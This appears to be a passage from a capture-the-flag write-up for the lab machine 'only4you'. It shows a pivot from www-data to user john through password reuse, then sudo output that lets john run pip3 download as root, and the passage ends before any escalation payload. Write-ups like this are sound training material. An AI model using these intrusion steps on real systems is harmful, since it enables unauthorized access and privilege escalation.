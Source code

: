 Based on `/etc/passwd`, there's a local user named John. Checking for password reuse, the same credentials are valid for John's local account as well.

```bash
(remote) www-data@only4you:/tmp$ su john
Password:
john@only4you:/tmp$ id
uid=1000(john) gid=1000(john) groups=1000(john)
```

---

## Privilege Escalation to root

---

John can execute a specific `pip3` command as root on localhost, port 3000.

```bash
(remote) john@only4you:/home/john$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

The `pip3 download` command is used to fetch Python projects from version control systems. In this context, John can use it to download a tar archive from the Gogs git service.

```bash
(remote) john@only4you:/home/john$ pip3 help download
Loading KWallet
Loading SecretService
Loading Windows
Loading chainer
Loading macOS

Usage:
  pip3 download [options] <requirement specifier> [package-index-options] ...
  pip3 download [options] -r <requirements file> [package-index-options] ...
  pip3 download [options] <vcs project url> ...
  pip3 download [options] <local project path> ...
  pip3 download [options] <archive url/path> ...

Description:
  Download packages from:

  - PyPI (and other indexes) using requirement specifiers.
  - VCS project urls.
  - Local project directories.
  - Local or remote source archives.

```

